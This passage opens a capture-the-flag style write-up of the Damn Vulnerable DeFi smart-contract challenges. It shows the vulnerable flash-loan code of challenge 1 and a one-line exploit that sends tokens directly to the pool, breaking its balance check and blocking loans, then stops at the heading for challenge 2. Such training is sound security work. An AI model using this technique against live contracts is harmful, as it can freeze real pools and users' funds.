 ```yaml
---
title: 💰 Damn Vulnerable DeFi Solutions
author: Ashiq Amien
date: 2021-04-22 21:00:00 +0200
categories: [Training, Smart Contract Hacking]
tags: training
math: true
---
```


This post contains the solutions of all 8 [Damn Vulnerable Defi](https://www.damnvulnerabledefi.xyz/) challenges. The challenges are focused around exploiting soldity-based smart contracts. If any of the solutions are unclear, please reach out in the comments below!

## [1. Unstoppable](https://www.damnvulnerabledefi.xyz/challenges/1.html)

The challenge is to prevent the pool from offering flash loans. The flash loan function is as follows:

```javascript
    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);
        
        damnValuableToken.transfer(msg.sender, borrowAmount);
        
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

The code attempts to ensure that the `poolBalance` and the `damnVulnerableToken` balance is the same, indicating that the balance is matched 1:1 with user deposits. However, by transferring a token directly to the pool, we can cause the revert to fail, which is enough to prevent the flash loan function from working:

```javascript
    it('Exploit', async function () {
        await this.token.transfer(this.pool.address, ether('1'), { from: attacker });
    });
```

## [2. Naive Receiver](https://www.damnvulnerabledefi.xyz/challenges/2.html)
